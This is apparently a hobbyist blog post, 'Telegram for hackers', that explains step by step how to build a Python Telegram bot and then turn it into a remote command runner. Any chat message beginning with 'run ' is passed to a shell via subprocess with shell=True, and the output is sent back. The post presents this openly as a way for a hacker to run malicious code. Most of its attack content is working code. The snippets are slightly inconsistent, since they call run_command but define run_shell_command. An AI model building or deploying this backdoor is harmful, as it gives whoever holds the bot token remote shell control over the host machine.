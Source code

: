 ```yaml
---
title: Telegram for hackers
tags: ['telegram', 'python']
author: me
image: https://github.com/p-i-c-o/p-i-c-o.github.io/blob/main/telegram.png?raw=true
---
```


Telegrams' api has been used for many things, for example: Chat Bots, News 
and Updates, Content Delivery, and much much more. However, using Python 
and a small computer, a hacker can create a bot that can run malicious 
code.
Let's create one together.

### INSTALLATION
Because there are some issues with the current pip distribution of the 
python-telegram-bot, we need to install version 13.13 specifically:
`pip3 install python-telegram-bot==13.13`

### USAGE
We need a bot to use, start a new chat on telegram with the BotFather, and 
create a new bot and get its bot token. Make sure no one gets it as it 
would give them access to your bot. Save your chat id and your bot token 
somewhere safe.

Using a simple script, we can now create a script that communicates with a 
chat bot. Here it is:
```
# ---------------------------------------------
token = "INSERT YOUR TOKEN HERE"
correct_chat_id = "INSERT YOUR CHAT ID HERE"

from telegram import Bot, Update
from telegram.ext import Updater, MessageHandler, filters
import os, subprocess
# ------------------ FUNCTIONS ------------------
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, 
text=True)
  return result.stdout

# --------------------- CODE --------------------

def echo(update: Update, context) -> None:
    message = update.message
    reply = None
    # ------------------ Predefined Responses ------------------
    if message.text == "Test 1":
      reply = "Success 1"
    # ----------------------------------------------------------
    bot = context.bot
    if reply != None:
      try:
        bot.send_message(chat_id=correct_chat_id, text=reply)
      except:
        bot.send_message(chat_id=correct_chat_id, text="⚠️ An error 
occured ⚠️")


if __name__ == "__main__":
    bot_token = token

    bot = Bot(token=bot_token)
    updater = Updater(bot=bot)
    dispatcher = updater.dispatcher
    echo_handler = MessageHandler(filters.Filters.text, echo)
    dispatcher.add_handler(echo_handler)
    updater.start_polling()
    updater.idle()
```
This script will simply reply "Success 1", when you send it "Test 1". Very 
simple. To create our own commands, use this format.
```
if message.text == <desired_input>:
  reply = <desired_response>
```
This script will only send the user something back nothing else.
To create something more dangerous, we can create a command runner, this 
would let us remotely run a command on the computer hosting this script.
```
if message.text[:4] == "run ":
  reply = run_command(message.text[4:])
```
It's that simple, but remember to define the `run_command()` function, 
heres one I use.
```
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, 
text=True)
  return result.stdout
```
This function will run the command with bash and simply return the command 
line output.
The cool thing about this command running piece of code is that it detects 
if the user started with "run " and runs only what is after that to 
prevent confusion.
